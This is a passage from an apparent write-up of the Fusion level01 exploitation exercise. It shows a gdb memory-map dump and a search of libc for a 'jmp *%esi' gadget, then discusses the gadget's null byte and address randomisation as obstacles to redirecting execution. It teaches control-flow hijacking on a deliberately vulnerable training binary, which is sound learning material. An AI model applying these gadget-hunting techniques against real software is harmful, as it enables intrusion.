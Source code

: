 \begin{lstlisting}
(gdb) info proc mappings
process 3892
cmdline = '/opt/fusion/bin/level01'
cwd = '/home/fusion'
exe = '/opt/fusion/bin/level01'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
          0x1f4000   0x1f5000     0x1000          0           [vdso]
          0x6ef000   0x6f1000     0x2000          0        
          0x82d000   0x82e000     0x1000          0        
          0xa98000   0xc0e000   0x176000          0        /lib/i386-linux-gnu/libc-2.13.so
          0xc0e000   0xc10000     0x2000   0x176000        /lib/i386-linux-gnu/libc-2.13.so
          0xc10000   0xc11000     0x1000   0x178000        /lib/i386-linux-gnu/libc-2.13.so
          0xc11000   0xc14000     0x3000          0        
          0xdb4000   0xdd2000    0x1e000          0        /lib/i386-linux-gnu/ld-2.13.so
          0xdd2000   0xdd3000     0x1000    0x1d000        /lib/i386-linux-gnu/ld-2.13.so
          0xdd3000   0xdd4000     0x1000    0x1e000        /lib/i386-linux-gnu/ld-2.13.so
         0x8048000  0x804b000     0x3000          0       /opt/fusion/bin/level01
         0x804b000  0x804c000     0x1000     0x2000       /opt/fusion/bin/level01
        0xbfc75000 0xbfc96000    0x21000          0           [stack]
(gdb) find /h 0xa98000, 0xc0e000, 0xe6ff
0xb0c681 <mallochook+49>
...
0xbf7fcb
17 patterns found.
(gdb) x/i 0xb0c681
   0xb0c681 <mallochook+49>:    jmp    *%esi
\end{lstlisting}

Excellent! so, the bytes for a \texttt{jmp *\%esi} instruction
can be found in the C standard library. We'd be tempted to redirect
execution to that address and be done, but there's a few problems.
First, the address contains a null byte (\texttt{0x00b0c681}), and
may not get through string functions properly. Also, how well does this
work if we were to re-start the process?

